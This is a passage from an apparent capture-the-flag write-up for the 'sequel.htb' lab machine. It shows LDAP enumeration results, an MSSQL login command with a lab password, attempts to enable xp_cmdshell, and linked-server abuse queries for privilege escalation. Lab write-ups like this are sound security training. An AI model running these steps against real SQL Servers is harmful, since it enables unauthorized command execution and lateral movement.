 ![ldapdomaindump](https://cdn-images-1.medium.com/max/1000/1*Jg64PTQEP9AFz-PqZeMkmQ.png)
![ldapdomaindump](https://cdn-images-1.medium.com/max/1000/1*KMpySyyfw5ioMBvB4PMJpQ.png)
![ldapdomaindump](https://cdn-images-1.medium.com/max/1000/1*cBAWeSBpNmUzznlKhoHNHA.png)


we have a list of valid users now and we know their groups and some other data about the environment 

we can use rpcclient to enumerate more data, but not important for me now

#### 3. MSSQL

```
mssqlclient.py -windows-auth sequel.htb/rose:KxEPkKe6R8su@10.10.11.51
```
![](https://cdn-images-1.medium.com/max/1000/1*dWfxlnYBW_AVmCdTeZjJiw.png)

After connecting, attempt to enumerate database configurations and user data for credentials and other stuff.

Next, try enabling xp_cmdshell to execute system commands Manually using

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
or using `mssqlclient` built-in command `enable_xp_cmdshell`
![](https://cdn-images-1.medium.com/max/1000/1*_msC25px31dhEZ1xiwGfSQ.png)

But we got an error, we do not have sufficient permissions 

![](https://cdn-images-1.medium.com/max/1000/1*3aOQ6zfyIqA4qbUgafWKUA.png)

next Check for linked servers to escalate privileges or access additional resources

##### Linked Server Abuse attack.

A linked server acts as a bridge between two servers. Linked servers in SQL Server allow one SQL Server instance to query another. If improperly configured or secured, they can be abused for privilege escalation, lateral movement, and data extraction.

+ **Enumerate Linked Servers**

    ```
    EXEC sp_linkedservers; 
    or
    enum_links
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*OcXjRGLJ2mRHrErtRGV-yw.png)

+ **Query the Linked Server DC01\SQLEXPRESS**

    ```
    EXEC ('SELECT name FROM master.dbo.sysdatabases') AT [DC01\SQLEXPRESS];
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*g7bFNMJAEtetwh13TiRB5w.png)
